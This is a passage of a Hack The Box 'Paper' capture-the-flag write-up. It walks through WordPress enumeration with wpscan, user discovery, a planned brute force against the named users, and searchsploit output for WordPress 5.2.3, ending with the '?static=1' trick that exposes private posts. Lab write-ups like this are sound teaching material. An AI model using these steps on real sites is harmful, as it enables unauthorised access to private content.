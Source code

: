 ![image](/assets/img/posts/hackthebox/site.png)

I also noticed comments talking about a group chat but couldn't make much of it(at that point). Anyways, since this is wordpress lets bust out wpscan

![image](/assets/img/posts/hackthebox/wpscan.png)

![image](/assets/img/posts/hackthebox/wpscan-enum.png)

Things to note:
~ from the first image we know the site was built from an ancient wordpress version and there will most likely be an exploit in the wild
~ from the second image we know all our users, nick and prisonmike.. we could run a bruteforce with wpscan against bost users, while we search if an exploit exists for the wp version ```echo -n "prisonmike\nnick >users.txt"

	Leading with the wp version we have a sensitive information disclosure exploit which could be carried out by appending the url with ```?static=1``` 

```
┌──(azazel㉿azazel)-[~/Hackthebox/paper]
└─$ searchsploit wordpress 5.2.3                          
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                                                                                                                                                         | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                                                                                     | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                                                                                     | php/dos/47800.py
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                                                                                                         | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                                                                                                                                                   | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                                                                                                                                                 | php/webapps/48918.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                                                              
┌──(azazel㉿azazel)-[~/Hackthebox/paper]
└─$ searchsploit -m multiple/webapps/47690.md;cat 47690.md
  Exploit: WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts
      URL: https://www.exploit-db.com/exploits/47690
     Path: /usr/share/exploitdb/exploits/multiple/webapps/47690.md
File Type: ASCII text

Copied to: /home/azazel/Hackthebox/paper/47690.md


So far we know that adding `?static=1` to a wordpress URL should leak its secret content
```